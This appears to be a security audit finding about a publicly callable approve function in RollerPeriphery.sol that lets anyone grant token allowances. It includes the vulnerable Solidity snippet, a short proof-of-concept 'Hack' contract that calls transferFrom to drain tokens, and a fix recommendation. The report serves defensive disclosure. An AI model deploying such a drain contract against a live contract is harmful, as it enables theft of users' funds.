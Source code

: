 ctf_sec

medium

# Hacker can call approve function to approve malicious contract to spend token in RollerPeriphery.sol

## Summary

Hackers can call approve function to approve malicious contracts to spend tokens in RollerPeriphery.sol

## Vulnerability Detail

We have this function inside the contract RollerPeriphery.sol

```solidity
    function approve(ERC20 token, address to, uint256 amount) public payable {
        token.safeApprove(to, amount);
    }
```

this function is publicly callable. then hacker can approve malicious contract to transfer the fund out from RollerPeriphery.sol.

```solidity
import { ERC20 } from "solmate/tokens/ERC20.sol";

contract Hack {

    function steal(address rollerPeriphery, address token, uint256 amount) public {
       ERC20(token).transferFrom(rollerPeriphery, msg.sender, amount);
    }
}
```

## Impact

Fund in RollerPeriphery.sol at risk.

There may be dusted balance left when user mint / deposit / withdraw / redeem / reject.

## Code Snippet

https://github.com/sherlock-audit/2022-11-sense/blob/main/contracts/src/RollerPeriphery.sol#L99-L102

## Tool used

Manual Review

## Recommendation

The only approval that the contract needs to complete the mint / withdraw / deposit / redeem / eject is approving the vault contract to spend the token inside the RollerPeriphery.sol.

We recommend the project approve the vault to spend the token before mint / deposit / withdraw / redeem instead of letting the approve remains callable by anyone.